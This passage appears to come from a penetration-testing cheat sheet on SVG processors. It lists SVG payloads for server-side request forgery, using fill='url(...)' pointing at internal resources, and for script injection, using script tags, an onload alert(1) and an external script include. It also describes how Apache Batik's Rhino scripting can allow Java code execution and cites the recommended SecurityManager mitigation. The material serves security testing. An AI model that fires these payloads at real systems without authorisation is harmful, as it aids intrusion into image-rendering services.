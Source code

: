 ### Tags styles using ```fill``` attribute

[Supported tags](https://developer.mozilla.org/en-US/docs/Web/SVG/Attribute/fill)

rect:
```xml
<rect width="100" height="100" fill="url(http://internal-resource)"></rect>
```

path:
```xml
<path fill="url(http://internal-resource)"></path>
```

## Scripting

It worth to check if the library processing javascript, because in some cases it could lead to remote code execution.

### Embedded scripts

#### Script tag

```xml
<script type="application/javascript">
    alert(1);
</script>
```

#### Events

```xml
<svg xmlns="http://www.w3.org/2000/svg" 
     xmlns:xlink="http://www.w3.org/1999/xlink"
     onload="alert(1)">
</svg>
```

### External scripts

```xml
<script type="text/ecmascript" xlink:href="http://external-resource"></script>
```

### Code execution

Apache Batik offers script execution capabilities from the box. It uses Mozilla Rhino script intepreter and allows to use Java objects and classes. It has pretty weak ```ClassShutter``` and doesn't apply script sandboxing on the framework level. This makes it possible for attackers to achive Java code execution on the target machine. It [recommended](https://xmlgraphics.apache.org/batik/using/scripting/security.htmls) to use Java Security manager for sandboxing purposes.


> It worth mentioning that ```batik-rasterizer``` application applies security, and restricts access to all critical resources using Java ```SecurityManager```.

